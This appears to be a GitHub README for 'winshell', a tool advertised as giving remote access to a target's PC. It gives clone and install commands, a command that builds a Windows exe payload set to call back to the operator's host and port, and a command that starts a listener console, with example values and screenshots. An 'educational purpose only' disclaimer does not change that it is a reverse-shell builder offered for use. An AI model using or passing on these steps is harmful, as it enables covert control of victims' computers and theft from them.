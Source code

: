 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 


Download and Run
------------------------
git clone https://github.com/EH30/winshell
cd winshell
pip install -r requirements.txt
Genrate exe file: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Listener console: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1



Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Console Example
---------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --console 1   
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >   
   
   
   

Generating exe file Example
--------------------------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --name shell   
----------------------------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_shell_example.JPG">   

<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG">   


